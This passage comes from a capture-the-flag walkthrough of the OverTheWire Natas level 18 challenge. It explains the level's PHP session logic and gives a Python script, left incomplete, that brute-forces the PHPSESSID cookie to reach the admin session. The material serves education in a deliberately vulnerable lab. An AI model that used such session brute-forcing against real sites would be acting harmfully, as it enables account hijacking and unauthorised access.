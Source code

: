 
In the case it's true, a function that prints the credentials is called, printing our password:

```
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
```

If *%my_session* is not true, it  will look to the HTTP request and search for username and password. If it finds them, it creates a session id:

```
function isValidAdminLogin() { /* {{{ */
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }
    return 0;
```






So, in resume, we have a function that starts the session, first checking if the session id is in the cookie and if this session id is a number. If true, it checks if it's a fresh session. Then, it checks if the word *admin* is in [SESSION_ID]. If not, it invalidates the session.

[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID

If the SESSION_ID is the admin session ID, the password for the next is shown.

After that, it calls PHP's [session_starts()].

The session ID is given by the variable *PHPSESSID*, and that's what we are going to brute force to get our password.






The variable [$_REQUEST]  is an  array that by default contains the contents of *$_GET*, *$_POST* and *$_COOKIE*.

[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php

[session_starts()]: http://php.net/manual/en/function.session-start.php

#### Crafting the attack:

We write the following script:

```python
import requests

def brute_force_password(AUTH, URL, PAYLOAD, MAXID):
    for i in range(MAXID):
        HEADER ={'Cookie':'PHPSESSID=' + str(i)}
        r = requests.post(URL, auth=AUTH, params=PAYLOAD, headers=HEADER)
        if "You are an admin" in r.text:
            print(r.text)
            print(r.url)
            print(str(i))

if __name__ == '__main__':
    AUTH = ('natas18', '*************************')
    URL = 'http://natas18.natas.labs.overthewire.org/index.php?'

```

[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[readfile()]:  http://php.net/manual/en/function.readfile.php
[system]: http://php.net/manual/en/function.system.php
[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/
[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html
[request]: http://docs.python-requests.org/en/latest/user/quickstart/
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[source code is available]: https://github.com/bt3gl/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits